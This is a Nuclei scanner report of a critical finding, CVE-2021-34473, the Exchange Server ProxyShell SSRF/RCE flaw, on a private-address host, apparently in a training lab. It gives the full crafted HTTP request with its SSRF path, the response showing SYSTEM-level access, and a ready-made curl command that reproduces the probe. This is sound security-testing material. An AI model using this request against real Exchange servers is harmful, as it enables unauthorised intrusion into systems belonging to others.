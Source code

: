 ### Exchange Server - Remote Code Execution (CVE-2021-34473) found on https://10.10.252.86
---
**Details**: **CVE-2021-34473**  matched at https://10.10.252.86

**Protocol**: HTTP

**Full URL**: https://10.10.252.86/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com

**Timestamp**: Thu Apr 6 23:00:23 +0100 BST 2023

**Template Information**

| Key | Value |
|---|---|
| Name | Exchange Server - Remote Code Execution |
| Authors | arcc, intx0x80, dwisiswant0, r3dg33k |
| Tags | cve, cve2021, ssrf, rce, exchange, kev |
| Severity | critical |
| Description | Microsoft Exchange Server is vulnerable to a remote code execution vulnerability. This CVE ID is unique from CVE-2021-31196, CVE-2021-31206.<br> |
| Remediation | Apply Microsoft Exchange Server 2019 Cumulative Update 9 or upgrade to the latest version. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| CVE-ID | [CVE-2021-34473](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-34473) |
| CVSS-Score | 9.80 |

**Request**
```http
GET /autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com HTTP/1.1
Host: 10.10.252.86
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Cache-Control: private
Content-Type: text/html
Date: Thu, 06 Apr 2023 22:00:22 GMT
Request-Id: a17165f8-0c91-459a-9702-23bd587036e5
Server: Microsoft-IIS/10.0
Set-Cookie: X-BackEndCookie=; expires=Tue, 06-Apr-1993 22:00:23 GMT; path=/autodiscover; secure; HttpOnly
Vary: Accept-Encoding
X-Aspnet-Version: 4.0.30319
X-Beserver: WIN-12OUO7A66M7
X-Calculatedbetarget: win-12ouo7a66m7.thm.local
X-Diaginfo: WIN-12OUO7A66M7
X-Feserver: WIN-12OUO7A66M7
X-Powered-By: ASP.NET
X-Serverapplication: Exchange/15.02.0858.002

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.2.858.2<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> win-12ouo7a66m7.thm.local<br><b>Mailbox:</b> win-12ouo7a66m7.thm.local</p><p><br><br><br><b>Created:</b> 4/6/2023 10:00:23 PM</p></body></html>
```

References: 
- https://msrc.microsoft.com/update-guide/vulnerability/cve-2021-34473
- https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html
- https://peterjson.medium.com/reproducing-the-proxyshell-pwn2own-exploit-49743a4ea9a1
- https://nvd.nist.gov/vuln/detail/cve-2021-34473

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36' 'https://10.10.252.86/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com'
```
---
Generated by [Nuclei 2.9.0](https://github.com/projectdiscovery/nuclei)